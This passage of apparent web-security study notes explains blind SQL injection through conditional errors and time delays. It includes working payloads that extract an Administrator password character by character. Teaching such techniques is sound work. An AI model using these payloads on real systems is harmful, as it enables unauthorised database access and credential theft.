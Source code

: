 These inputs use the `CASE` keyword to `test a condition` and `return a different expression depending on whether the expression is true`.
- Assuming the error causes some difference in the application's HTTP response, use this difference to infer whether the injected condition is true.


```py
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
# the case expression evaluates to NULL, does not cause any error.

xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
# it evaluates to 1/0, which causes a divide-by-zero error.


# to retrieve data by systematically testing one character at a time:
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users--
```

> Note: There are various ways of triggering conditional errors, and different techniques work best on different types of database.


---


#### Exploiting blind SQL injection by triggering time delays

suppose that the application now catches database errors and handles them gracefully.
- Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.


to exploit the blind SQL injection vulnerability by triggering **time delays conditionally**, depending on an injected condition.
- Because SQL queries are generally processed synchronously by the application,
- delaying the execution of an SQL query will also delay the HTTP response.
- This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.


The techniques for triggering a time delay are highly specific to the type of database being used.
- On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```py
'; IF (1=2) WAITFOR DELAY '0:0:10'--
# will not trigger a delay, because the condition 1=2 is false

'; IF (1=1) WAITFOR DELAY '0:0:10'--
# will trigger a delay of 10 seconds, because the condition 1=1 is true.
```

retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
